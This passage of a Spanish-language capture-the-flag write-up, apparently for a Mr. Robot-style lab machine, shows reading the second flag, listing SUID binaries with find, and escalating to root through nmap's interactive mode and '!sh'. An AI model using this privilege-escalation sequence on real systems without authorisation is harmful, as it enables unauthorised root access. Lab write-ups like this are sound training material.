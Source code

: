 Como bien sabemos, ahora somos el usuario `robot`, con privilegios de lectura del fichero que contiene la segunda flag, así que procedemos a revisar su contenido.

```bash
robot@linux:/$ head -c 10 /home/robot/key-2-of-3.txt
head -c 10 /home/robot/key-2-of-3.txt
822c739561
```
##ESCALAMIENTO

¡Perfecto! Ahora si vamos a revisar permisos por medio del comando `find`, así podremos ver qué tipo de utilidades puede ejecutar el usuario `robot` con privilegios.

```bash
robot@linux:/$ find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

Vemos que `robot` puede ejecutar el comando `nmap` sin necesidad de ingresar credenciales.

Por medio del recurso [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#shell) identificamos una vía potencial de escalamiento de privilegios, ejecutando lo siguiente.

```bash
robot@linux:/$ nmap --interactive
nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
#whoami
#root
```

Esto fue posible debido a que la versión de nmap de la maquina era vulnerable, de igual manera la versión de python para spawnear la shell era compatible con lo que se requería.


¡Logramos tener acceso a la maquina como `root`!
